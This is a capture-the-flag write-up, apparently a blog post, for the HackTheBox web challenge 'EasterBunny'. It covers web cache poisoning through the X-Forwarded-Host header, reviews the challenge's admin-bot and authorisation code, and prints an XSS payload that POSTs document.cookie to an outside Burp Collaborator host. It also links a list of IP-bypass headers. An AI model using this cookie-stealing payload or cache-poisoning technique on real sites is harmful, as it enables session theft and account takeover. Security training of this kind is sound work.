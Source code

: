 ```yaml
---
layout: single
title: EasterBunny
excerpt: "It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching!"
date: 2022-8-28
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - web
tags:  
  - web cache poisoning
  - cross site scripting
  - ip bypass
  - resource hijacking
---
```



It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching! <br>

<h4 align="center">
<img src="https://user-images.githubusercontent.com/45040001/187103435-e7a41ec1-67d8-491a-9572-a340b96f265e.png">
</h4>


The EasterBunny is a easy challenge from hackthebox where you can learn a lot from it. Lets explain little bit the steps but with words, the first step is to identify web cache poisoning vulnerability and follow [web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning) methodology.

## WCP Methodology
![image](https://user-images.githubusercontent.com/45040001/187235119-7f8f04e9-1a0e-4899-b623-109aae0d0ceb.png)

### Detect unkeyed input
We can detect & inject into cache a random string just using `X-Forwarded-Host` HTTP Header. Using this header we can perform a xss attack to steal some cookies from the user in our situation from `bot.js`.<br>
![detect_unkeyd_input](https://user-images.githubusercontent.com/45040001/187235463-af6684d1-b75f-422d-b08f-7515db78026a.png)

![unkeyd_input](https://user-images.githubusercontent.com/45040001/187235510-121c99c8-0160-463d-b4e2-c95af06b362a.png)

![viewletter_javascript](https://user-images.githubusercontent.com/45040001/187235528-15b5cbc5-faea-4430-bef9-f7891538de51.png)

## Code Review

### route /submit
```javascript
router.post("/submit", async (req, res) => {
    const { message } = req.body;

    if (message) {
        return db.insertMessage(message)
            .then(async inserted => {
                try {
                    botVisiting = true;
                    await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
                    botVisiting = false;
                }
                catch (e) {
                    console.log(e);
                    botVisiting = false;
                }
                res.status(201).send(response(inserted.lastID));
            })
            .catch(() => {
                res.status(500).send(response('Something went wrong!'));
            });
    }
    return res.status(401).send(response('Missing required parameters!'));
});
```

### bot.js
```javascript
const visit = async(url, authSecret) => {
    try {
        const browser = await puppeteer.launch(browser_options);
        let context = await browser.createIncognitoBrowserContext();
        let page = await context.newPage();

        await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });

        await page.goto(url, {
            waitUntil: 'networkidle2',
            timeout: 5000,
        });
        await page.waitForTimeout(3000);
        await browser.close();
    } catch (e) {
        console.log(e);
    }
};
```



### authorisation.js
```javascript
const authSecret = require('crypto').randomBytes(69).toString('hex');

const isAdmin = (req, res) => {
  return req.ip === '127.0.0.1' && req.cookies['auth'] === authSecret;
};

module.exports = {
  authSecret,
  isAdmin,
};
```



### viewletter.js (steal cookies)
```javascript
fetch('http://4w1j76r5ydqthsa2yt357tr45vbmzb.burpcollaborator.net/', {
		    method: 'POST',
		    body: document.cookie
		    });
```

[ip bypass headers](https://gist.githubusercontent.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1/raw/339dad3040fd1a967588edf341eb72b033a9d9fe/gistfile1.txt)
